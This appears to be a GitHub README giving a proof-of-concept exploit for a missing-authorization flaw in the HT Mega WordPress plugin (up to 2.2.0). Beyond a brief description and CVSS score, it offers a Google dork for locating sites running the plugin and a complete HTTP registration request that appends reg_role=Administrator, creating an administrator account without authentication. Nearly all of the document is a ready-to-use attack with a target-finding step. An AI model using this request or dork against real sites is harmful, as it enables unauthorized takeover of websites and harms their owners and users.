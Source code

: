 # ht-mega
"HT Mega – Absolute Addons for Elementor &lt;= 2.2.0 - Missing Authorization to Privilege Escalation"

```
The HT Mega plugin for WordPress is vulnerable to Missing Authorization in versions up to, and including, 2.2.0. This is due to missing validation of the reg_role parameter on the htmega_ajax_register function. This makes it possible for unauthenticated attackers to create administrator accounts.
```
Info
---
```
https://www.wordfence.com/threat-intel/vulnerabilities/id/46f3cc62-c2d8-45af-bb92-c2040789cbc0

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

google-dork: inurl:"/wp-content/plugins/ht-mega-for-elementor/"
```

Requires registration to be enabled.

Proof of Concept
---
```
POST /my-account/ HTTP/2
Host: wordpress.lan
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 165
Origin: http://wordpress.lan
Referer: http://wordpress.lan/my-account/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=robbie@wordpress.lan&password=testest123%21&woocommerce-register-nonce=bfg37lz911&_wp_http_referer=%2Fmy-account%2F&register=Register&reg_role=Administrator
```

Intercept the registion and then just add `reg_role=Administrator` on the end and your now admin
